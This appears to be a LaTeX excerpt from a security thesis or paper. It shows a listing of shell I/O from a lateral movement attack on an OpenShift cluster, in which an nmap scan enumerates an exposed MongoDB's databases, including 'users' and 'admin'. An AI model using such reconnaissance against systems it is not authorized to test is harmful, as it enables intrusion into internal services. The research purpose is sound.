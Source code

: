 \subsection{Lateral movement attack conduction in the OCP cluster}
\begin{lstlisting}[
	caption={Shortened version of the shell I/O during the exploitation of the \gls{ocp} cluster attack by lateral movement},
	label={lst:lateral-ocp-exploit},
	breaklines=true]
# nmap -p27017 --script mongodb-databases 172.30.2.17 -Pn

Starting Nmap 6.47 ( http://nmap.org ) at 2019-06-13 15:16 UTC
Nmap scan report for 172.30.2.17
Host is up (0.00051s latency).
PORT      STATE SERVICE
27017/tcp open  mongodb
| mongodb-databases:
|   totalSize = 229376
|   ok = 1
|   databases
|     2
|       name = users
|       empty = false
|       sizeOnDisk = 114688
|     0
|       name = admin
|       empty = false
|       sizeOnDisk = 49152
|     1
|       name = local
|       empty = false
|_      sizeOnDisk = 65536


\end{lstlisting}
